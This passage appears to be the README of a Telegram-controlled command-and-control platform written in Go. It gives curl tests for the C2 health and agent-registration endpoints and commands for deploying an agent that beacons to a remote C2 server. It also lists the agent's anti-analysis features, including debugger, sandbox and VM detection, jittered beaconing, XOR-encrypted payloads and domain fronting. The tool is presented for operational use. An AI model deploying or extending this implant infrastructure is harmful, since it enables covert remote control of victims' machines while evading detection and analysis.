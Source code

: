 ### **Testing**

```bash
# Test C2 server health
curl http://localhost:8080/health

# Test agent registration
curl -X POST http://localhost:8080/register \
  -H "Content-Type: application/json" \
  -d '{"hostname":"test","username":"user","os":"windows"}'
```

## 🛡️ **Security Features**

### **Anti-Analysis (Agent)**
- ✅ Debugger detection (`IsDebuggerPresent`)
- ✅ Sandbox timing checks
- ✅ VM detection (CPU cores, screen resolution)
- ✅ Random execution delays
- ✅ Jittered beaconing intervals

### **Communication Security**
- ✅ XOR encryption for payloads
- ✅ HTTPS support (configure TLS certificates)
- ✅ Custom User-Agent strings
- ✅ Domain fronting capabilities (configure proxy)

### **Operational Security**
- ✅ Telegram bot authorization (superadmin only)
- ✅ Agent session management
- ✅ Secure task distribution
- ✅ Result encryption

## 📡 **Deployment Scenarios**

### **Local Testing**
```bash
# Terminal 1: Start platform
go run main.go -bot-token YOUR_TOKEN

# Terminal 2: Run test agent
go run ./agent/agent.go
```

### **Remote C2 Server**
```bash
# Server machine
go run main.go -c2-host 0.0.0.0 -bot-token YOUR_TOKEN

# Agent deployment  
go run ./agent/agent.go http://your-server-ip:8080
```
